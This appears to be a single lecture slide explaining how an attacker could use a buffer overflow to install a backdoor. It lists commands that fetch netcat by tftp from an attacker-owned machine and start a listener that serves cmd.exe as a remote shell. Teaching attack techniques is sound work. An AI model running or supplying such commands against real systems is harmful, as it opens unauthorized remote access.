

# Buffer Overflows and Backdoors
If I discover a buffer overflow that I can trigger, I might:

Overflow the buffer and have it to execute the following commands:
 tftp another_machine_I_own
 get nc.exe
 nc –L –p 8080 –e cmd.exe (or any other port I can get to)

Voila, I’ve got a netcat listener backdoor that I can use